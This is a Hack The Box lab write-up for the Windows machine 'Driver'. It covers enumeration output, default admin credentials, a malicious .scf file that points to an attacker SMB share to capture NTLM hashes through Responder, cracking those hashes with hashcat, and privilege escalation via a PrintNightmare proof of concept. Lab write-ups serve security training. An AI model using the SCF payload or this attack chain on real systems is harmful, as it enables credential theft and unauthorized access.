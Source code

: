 ```yaml
---
title: "[HTB] Machine: Driver"
description: "[HTB] Machine: Driver"
date: 2023-08-15
menu:
  sidebar:
    name: "[HTB] Machine: Driver"
    identifier: htb-machine-Driver
    parent: htb-machines-windows
    weight: 10
hero: images/driver.png
tags: ["HTB", "net-ntlmv2", "scf", "responder", "hashcat", "crackmapexec", "evil-winrm", "winpeas", "printer", "printnightmare", "cve-2021-1675", "invoke-nightmare"]
---
```


# Driver
## Enumeration
- `nmap`
```
└─$ nmap -sC -sV -Pn 10.10.11.106 -T4
Starting Nmap 7.94 ( https://nmap.org ) at 2023-08-17 18:16 BST
Nmap scan report for 10.10.11.106 (10.10.11.106)
Host is up (0.13s latency).
Not shown: 997 filtered tcp ports (no-response)
PORT    STATE SERVICE      VERSION
80/tcp  open  http         Microsoft IIS httpd 10.0
| http-auth: 
| HTTP/1.1 401 Unauthorized\x0D
|_  Basic realm=MFP Firmware Update Center. Please enter password for admin
| http-methods: 
|_  Potentially risky methods: TRACE
|_http-title: Site doesn't have a title (text/html; charset=UTF-8).
|_http-server-header: Microsoft-IIS/10.0
135/tcp open  msrpc        Microsoft Windows RPC
445/tcp open  microsoft-ds Microsoft Windows 7 - 10 microsoft-ds (workgroup: WORKGROUP)
Service Info: Host: DRIVER; OS: Windows; CPE: cpe:/o:microsoft:windows
5985/tcp open  http         Microsoft HTTPAPI httpd 2.0 (SSDP/UPnP)
|_http-server-header: Microsoft-HTTPAPI/2.0
|_http-title: Not Found
Service Info: Host: DRIVER; OS: Windows; CPE: cpe:/o:microsoft:windows

Host script results:
| smb2-time: 
|   date: 2023-08-18T00:16:51
|_  start_date: 2023-08-18T00:13:34
| smb-security-mode: 
|   account_used: guest
|   authentication_level: user
|   challenge_response: supported
|_  message_signing: disabled (dangerous, but default)
|_clock-skew: mean: 6h59m24s, deviation: 0s, median: 6h59m23s
| smb2-security-mode: 
|   3:1:1: 
|_    Message signing enabled but not required

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 65.04 seconds

```
- `smb`
  - `enum4linux` had no success 
```
└─$ smbclient -N -L //10.10.11.106
session setup failed: NT_STATUS_ACCESS_DENIED
```
- Port `80`

![](./images/1.png)
![](./images/2.png)

- `gobuster`
```
└─$ gobuster dir -u http://10.10.11.106 -w /usr/share/seclists/Discovery/Web-Content/directory-list-2.3-medium.txt -t 50 -x php,txt
===============================================================
Gobuster v3.5
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@firefart)
===============================================================
[+] Url:                     http://10.10.11.106
[+] Method:                  GET
[+] Threads:                 50
[+] Wordlist:                /usr/share/seclists/Discovery/Web-Content/directory-list-2.3-medium.txt
[+] Negative Status codes:   404
[+] User Agent:              gobuster/3.5
[+] Extensions:              txt,php
[+] Timeout:                 10s
===============================================================
2023/08/17 19:01:38 Starting gobuster in directory enumeration mode
===============================================================
/index.php            (Status: 401) [Size: 20]
/images               (Status: 301) [Size: 150] [--> http://10.10.11.106/images/]
/Images               (Status: 301) [Size: 150] [--> http://10.10.11.106/Images/]
/Index.php            (Status: 401) [Size: 20]
/IMAGES               (Status: 301) [Size: 150] [--> http://10.10.11.106/IMAGES/]
/INDEX.php            (Status: 401) [Size: 20]

```
## Foothold/User
- From the scren above we saw `WWW-Authenticate` header
  - https://developer.mozilla.org/en-US/docs/Web/HTTP/Headers/WWW-Authenticate
  - `A description of the protected area. If no realm is specified, clients often display a formatted hostname instead.`
  - We have our username - `admin`
  - Default `admin:admin` creds work

![](./images/3.png)

- Firmware update page, which states that it uploads firmware to file share
  - Then it is reviewed by the team

![](./images/4.png)

- So we can utilize `.scf` file
  - Check https://book.hacktricks.xyz/windows-hardening/ntlm/places-to-steal-ntlm-creds#shell-command-files
  - Let's create one

```
[Shell]
Command=2    
IconFile=\\10.10.16.4\anything.exe
```

- Launch `responder`, upload `scf` and wait 
  - And we got `hash`

![](./images/5.png)
![](./images/6.png)

- Let's crack it
  - `hashcat -m 5600 hash /usr/share/wordlists/rockyou.txt`
  - `tony:liltony`

![](./images/7.png)

- Test creds with `crackmapexec`

![](./images/8.png)

- `Evil-Winrm`

![](./images/9.png)

## Root
- Since it's a printer box I wondered if `PrintNightmare` would work
  - Download the `POC`
    - https://github.com/calebstewart/CVE-2021-1675

![](./images/10.png)

![](./images/11.png)
